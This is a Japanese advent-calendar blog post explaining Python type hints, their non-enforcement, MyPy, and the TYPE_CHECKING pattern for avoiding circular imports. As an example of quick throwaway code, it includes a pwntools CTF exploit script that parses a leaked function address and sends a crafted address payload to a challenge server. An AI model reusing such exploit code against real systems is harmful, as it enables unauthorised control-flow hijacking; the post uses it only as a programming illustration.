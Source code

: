 ```yaml
---
title: "Pythonの型ヒントの話"
description: "hydrogen Advent Calender 2024 day 2"
post: "2024-12-02T13:21"
# update: "2024-11-19T16:00"
tags: ["hydrogen Advent Calender 2024","Python", "MyPy"]
---
```


この記事は[hydrogen Advent Calender 2024](https://adventar.org/calendars/10672)の2日目の記事です。

## 本題

### Pythonと型

Pythonでは簡単なプログラムを書く程度なら型というものをあまり意識しなくてもいいように設計されている。

```py
import re
from pwn import *

# サーバーに接続
io = remote('pwnctf.example.com', 9000)
result = io.recvuntil('1: ')

match = re.search(r'show_flag = (.+)', result.decode())
show_flag_address = match.group(1).strip()
print(show_flag_address)

show_flag_address = int(show_flag_address, 16) + 0x08

little = show_flag_address.to_bytes((show_flag_address.bit_length() + 7) // 8, byteorder='little')
# ペイロードを構築
payload = little + b" a"

io.sendline("a")
io.recvuntil(': ')
io.sendline("1")
io.recvuntil(': ')
io.sendline("1")

io.recvuntil('2: ')
io.sendline("b")
io.recvuntil(': ')
io.sendline("2")
io.recvuntil(': ')
io.sendline("2")

io.recvuntil('3: ')
io.sendline("c")
io.recvuntil(': ')
io.sendline("3")
io.recvuntil(': ')
io.sendline("3")

io.recvuntil('4: ')
io.sendline(payload)
io.recvuntil(': ')
io.sendline("+")
io.recvuntil(': ')
io.sendline("+")

print(io.recvall(timeout=10))
```

それゆえに、こういったCTFのpwnableで使うような書き捨てのコードなどを記述するのに向いた言語であるといえる。だが同時に、少しコードの規模が大きくなるとこの点が問題になってくる。

### 型ヒント

Pythonは次のような文法で関数や変数に型ヒントをつけることができる。

```py
#定数・変数
SAMPLE: int = 3

#関数
def some_process(some_arg: int, some_str: str) -> list[int]:
    pass
```

ただ、これはあくまでも型「ヒント」でしかなく実行時にこの型になることを強制するものではない。

そのため、例えば上の関数の`some_str`に`int`型の値を渡しても警告の一つすら出さずにそのまま動作するのである。謂わば、この型ヒントはコメントに近しいものである。

加えて言うと、この型ヒントは型である必要がないのである。そのため次のような書き方も文法上可能となる。

```py
HOGE: 3 = "HOGE"
FUGA: some_process = 4
PIYO: b"Mixed Martial Arts" = "UECMMA"
```

もはややりたい放題である。ただ、関数の呼び出しや演算などは書くことができないため、副作用のある型ヒントを書くのは極めて困難である。

この~~突っ込みどころしかない~~型ヒント機能を用いて静的型検査を行うツールとしてMyPyなどが存在する。

### 型解析ツールと面倒な仕様

実務においてはMyPyを用いて静的型検査を行うことが多いが、その際にもPythonの面倒な仕様が首をもたげる。

Pythonでは循環するimportができないのである。これ自体はある意味自然な仕様ではあるのだが、型をimportすることもできないのである。
そのため、型解析の際にのみtrueになるような定数を用いて条件分岐でimportすることで対処するのである。その際に、直接型ヒントを書くことができないため次のように記述する必要がある。

```py
from typing import TYPE_CHECKING

if TYPE_CHECKING:
    from hoge import Hoge

def fuga(hoge: 'Hoge') -> None:
    pass

def piyo(hoge: 'list[Hoge]') -> int:
    pass
```

型ヒントを文字列で書くことで、importを回避することができるのである。
